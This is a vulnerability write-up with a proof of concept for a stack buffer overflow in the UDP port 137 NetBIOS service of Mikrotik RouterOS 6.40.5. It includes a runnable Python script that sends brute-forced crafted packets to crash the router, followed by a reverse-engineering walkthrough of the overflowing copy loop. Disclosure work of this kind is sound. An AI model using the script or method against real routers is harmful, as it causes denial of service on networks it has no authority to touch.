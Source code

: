 

# Mikrotik 6.40.5 路由器 137 接口活动参数缓冲区溢出漏洞



## 1.Basic Information



- **Vulnerability Type**: Buffer Overflow

  **Description**: A buffer overflow vulnerability exists in the Mikrotik 6.40.5 firmware. The service on UDP port 137 is vulnerable, allowing remote attackers to send specially crafted packets that trigger a buffer overflow, resulting in a Denial of Service (DoS).

  **Affected Devices and Versions**:

  - Mikrotik RouterOS 6.40.5
  - Firmware version: Mikrotik 6.40.5



## 2. Proof of Concept (PoC)

The following Python script demonstrates the vulnerability:

```py
import socket
import time

def send_netbios_name_query(target_ip):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    ## last byte is the brute-force target
    base_packet = bytes.fromhex(
        "82280110000100000000000024434B41414141414141414141414141414141414141414141414141414141414141414141"
    )

    for i in range(0x01, 0x100):
        packet = base_packet + bytes([i])
        print((packet))
        print(f"[+] Sending packet with last byte: {i:#04x}")
        s.sendto(packet, (target_ip, 137))
        time.sleep(0.01)  # Optional: brief delay to reduce packet loss

    print("[*] All 256 NetBIOS queries sent.")
    s.close()

send_netbios_name_query("192.168.72.140")  # Replace with your RouterOS IP
```



## 3.Exploitation Principle

A buffer overflow occurs in the sub_8060430 function, causing the return address to be overwritten. The overflow happens within the sub_8054607 function. Upon examining the function, we can see that due to the presence of a while loop, the loop only exits when v2 becomes 0; otherwise, it continuously copies data from a2 to a1.
![image](https://github.com/user-attachments/assets/00ea7384-5e73-414e-90bc-d1306a48be00)

Tracing back, we find that the a3 argument is actually a stack address passed from the previous function, meaning it has limited space. However, in the sub_8054607 function, there is no restriction on the range of memory being written to, which results in a stack overflow.To trigger the sub_8054607 function, the UDP payload must be longer than 49 bytes. Although a subsequent qmemcpy limits the amount of data copied from the received UDP packet, the sub_8054607 function itself lacks such bounds checking.
![image](https://github.com/user-attachments/assets/0be3a610-bc57-4fff-8abf-876ee329e922)

Debugging shows that the first check is passed successfully.
![image](https://github.com/user-attachments/assets/82f9e6f2-476f-45a3-9cb9-04690eaa75a6)

Next, 0x32 bytes of data are copied from the received UDP packet.
![image](https://github.com/user-attachments/assets/8c8bfff6-6273-44c5-bac1-4f883b314e4b)

The result after copying is as follows:
![image](https://github.com/user-attachments/assets/f5ae48a0-d8c7-4476-bad7-eb80ee408f48)

Later, the sub_8054607 function is called, where the length of the first copy operation is determined by the 13th byte after the previously copied data. The copying starts just after the 0x20-byte offset.
![image](https://github.com/user-attachments/assets/ce777607-1c89-44e9-b0a9-fa1cbd45a3fe)

After the first round of copying is completed — that is, when 0x20 bytes have been copied — the byte immediately following the last character of this round is treated as the length for the next round of copying. In this case, the value is 0x41.
![image](https://github.com/user-attachments/assets/19d84d5b-cddc-4262-9c44-560d034471d9)

Then proceed to start the next round of assignment
![image](https://github.com/user-attachments/assets/c12c4910-de26-488f-a5af-74a62a61a5b3)

Continue to assign values later:
![image](https://github.com/user-attachments/assets/a6a6bb3b-eeb2-4845-aff9-984668764711)

As long as the value retrieved from memory this time is not 0 (indicating the length of the next assignment), the assignment will continue downward until the retrieved length is 0, and then the loop will exit. However, as mentioned earlier, the length we can control is only 0x32 bytes, so we need to make use of the values that already exist on the stack in the program.

Finally, call the end position of the sub_8054607 function to check the stack space at this time and the position of the return value of the upper-level function (because the destination address of the assignment is inside the stack of the upper-level function) :
![image](https://github.com/user-attachments/assets/b8ac0682-b0c7-4f3f-8d4b-1c2f19b3d245)

Finally, the function returned with an error and exited:
![image](https://github.com/user-attachments/assets/12238d33-ea41-499d-926d-a9d63259075c)

To increase the probability of denial of service, we can try to blast the first or second round multiple times... .. By combining the lengths, try different numbers of rounds as many times as possible to make the number of cycles of this round as many as possible each time the explosion occurs. Finally, the purpose of overwriting the return value of the upper-level function is achieved.
The idea of the blasting script: We set the assignment length of the first round to 0x24：

![image](https://github.com/user-attachments/assets/5477f55a-2133-4991-9a93-6b1479be4874)

It is followed by 23 bytes, and the byte immediately following is the length of the second round of assignment. We can perform an explosion to maximize the use of the 1 to 255 pieces of data on the original stack to explosion the length of the third round of assignment (this will continue to affect the subsequent rounds and thus try more combinations) :
Compared with the non-blasting script: The overflow length of one attempt is not sufficient to cover the return address of the upper-level function sub_8060430
![image](https://github.com/user-attachments/assets/89096755-8a90-4787-9e19-fd0c7269f17f)

Run the blasting script at this time:
Finally, there will be a combination that overwrites the return value of the upper-level function, resulting in dos

![image](https://github.com/user-attachments/assets/f2e59d8b-84fa-4a7c-aa54-0a5c198b4e42)
![image](https://github.com/user-attachments/assets/eba41375-edfe-473f-b1d1-bc5362a8a34f)








